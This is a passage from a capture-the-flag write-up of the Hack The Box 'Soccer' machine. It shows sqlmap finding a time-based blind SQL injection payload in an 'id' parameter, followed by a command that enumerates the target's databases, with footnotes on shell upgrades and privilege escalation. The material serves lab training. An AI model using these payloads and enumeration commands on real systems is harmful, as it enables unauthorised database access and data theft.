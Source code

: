 ![](/assets/img/posts/htb-soccer/sqlmap.png)

Sqlmap identifies the backend as a MySQL DBMS and identifies a time-based blind payload. 

```bash
sqlmap identified the following injection point(s) with a total of 97 HTTP(s) requests:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=73801 AND (SELECT 4538 FROM (SELECT(SLEEP(5)))qLQG)
---
```

We can perform sqlmap enumeration to determine the names of the databases (excluding MySQL system databases), tables, columns, and the data itself. 

```
sqlmap -u http://localhost:8081/?id=73901 --dbs --exclude-sysdbs

--- SNIP ---
available databases [5]:
[*] information_schema              
[*] mysql
[*] performance_schema                           
[*] soccer_db                                         
[*] sys       
--- SNIP ---
```


[^htb-link]: <https://www.hackthebox.com/machines/soccer>
[^upgrade-reverse-shell]: <https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>
[^sql-over-websockets]: <https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html>
[^gtfobins]: <https://gtfobins.github.io/gtfobins/dstat/>